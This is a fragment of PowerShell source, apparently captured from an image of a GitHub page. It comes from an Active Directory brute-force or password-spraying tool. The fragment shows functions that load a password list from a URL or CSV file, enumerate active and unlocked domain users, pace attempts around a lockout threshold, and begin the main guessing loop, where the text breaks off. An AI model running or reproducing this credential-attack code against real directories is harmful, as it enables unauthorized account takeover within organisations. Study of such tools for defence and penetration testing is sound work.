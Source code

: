 ```
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
```